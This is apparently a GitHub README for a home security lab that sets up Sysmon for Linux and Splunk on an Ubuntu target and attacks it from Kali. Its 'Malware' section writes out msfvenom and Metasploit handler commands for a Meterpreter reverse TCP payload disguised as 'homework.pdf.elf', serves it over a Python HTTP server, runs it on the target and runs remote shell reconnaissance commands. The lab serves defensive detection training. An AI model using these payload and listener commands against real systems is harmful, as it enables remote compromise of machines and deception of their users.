 # 💻 Sysmon-to-Splunk: Reverse Shell Attack Detection

**Stack:** VirtualBox, Kali Linux (attacker), Ubuntu (target), Sysmon-for-Linux, Splunk, Metasploit, msfvenom, python HTTP

**Focus:** Endpoint Telemetry, SIEM Integration, and Threat Detection

**Goal:** Build and analyze a real attack scenario using Sysmon for Linux and Splunk SIEM

## 🔍 Overview

This lab simulates a **realistic endpoint compromise** in a controlled environment.  
Using **Kali Linux** as the attacker and **Ubuntu** as the target, I generated and analyzed **Sysmon telemetry** to detect malicious activity through **Splunk SIEM**.

The project bridges **red-team tactics** and **blue-team analysis**, showing how attacker actions translate into logs, and how defenders can identify those behaviors.

## 🧱 Lab Setup and Architecture

1. Install VirtualBox on your host OS.

2. Create the VMs:
   - **Ubuntu target** — install from [ISO](https://ubuntu.com/download/desktop).
   - **Kali attacker** — import the [Kali](https://www.kali.org/get-kali/#kali-platforms) VirtualBox image (or install from ISO).
   - Both VMs are in a internal network.

1. Allocate resources:
   - Set RAM and CPU for each VM depending on host resources.
   - *Example:* Kali: 4 GB RAM, 4 vCPU. Ubuntu: 4 GB RAM, 3 vCPU.

| Network Diagram                       |
| ------------------------------------- |
| ![diagram](./docs/diagram.png)        |  

## ⚙️ Documentation

### 1. Install Splunk on Ubuntu (Target)

1. Download Splunk Enterprise for Linux (from [Splunk website](https://www.splunk.com/en_us/products/splunk-enterprise.html)) on the Ubuntu VM.

2. Keep in mind that you will need internet connection to install Splunk.

3. On Ubuntu, install:
```shell
# replace splunk_package.deb with the name of your .deb file
sudo dpkg -i ./splunk_package.deb

# start splunk
sudo /opt/splunk/bin/splunk start
   ```

4. Visit the Splunk web UI from the Ubuntu machine at: http://localhost:8000

### 2. Install Sysmon on Ubuntu (Target)

1. Please visit the official [sysmonforlinux](https://github.com/microsoft/SysmonForLinux) repo for more information.

2. Register Microsoft key and feed
```
wget -q https://packages.microsoft.com/config/debian/$(. /etc/os-release && echo ${VERSION_ID%%.*})/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

2. Install sysmonforlinux
```
sudo apt-get update
sudo apt-get install sysmonforlinux
```

3. Update sysmon config, with (provided config)[./configs/sysmonconfig.xml], taken from [OpenSecureCo](https://github.com/OpenSecureCo/Demos/blob/main/sysmonforlinux)
```
nano /opt/config.xml
```

4. To test, see logs using:
```
sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

### 3. Malware

1. Note the ip of the attacker machine (Kali)
```
ip a
```

2. Create the reverse tcp payload with msfvenom using:
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f elf -o homework.pdf.elf
```
*note: lhost is the attackeer ip, elf executable file format is used for payload.*

4. Start msfconsole and prepare the handler and run exploit
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.20.11
exploit
```
- *note that the default payload for exploit/multi/handler is generic/shell_reverse_tcp (see below); explicitly set payload to linux/x64/meterpreter_reverse_tcp.*
[options](./docs/options.png)

5. Serve the payload with Python HTTP server
```
python3 -m http.server 9999
```

6. Install the malware on Ubuntu by visiting `192.168.20.11:9999` on a browser and downloading it from the python server. After installing:
```
chmod +x homework.pdf.elf
./homework.pdf.elf
```

7. After executing the payload, the handler on Kali should show a new Meterpreter session (see below). 
(handler)[./docs/establish.png]

- In msfconsole you can interact with the Ubunut machine from the attacker machine using `shell` with the following commands:
```
shell
ip a 
user
getent group
```
- `ip a` shows network interfaces
- `user` lists users
- `getent group` retrieves group info from administrative databases

8. On the target machine, we can see that we have an established connection with the attacker machine using `sudo ss -tp`:.
```
ESTAB  0  0  192.168.20.10:34944  192.168.20.11:4444  users:((“sh”,pid=8931,fd=4),(“homework.pdf.el”,pid=8370,fd=4))
```
- *note that the peer address (2nd ip) is the attacker machines ip with the port of the handler.*
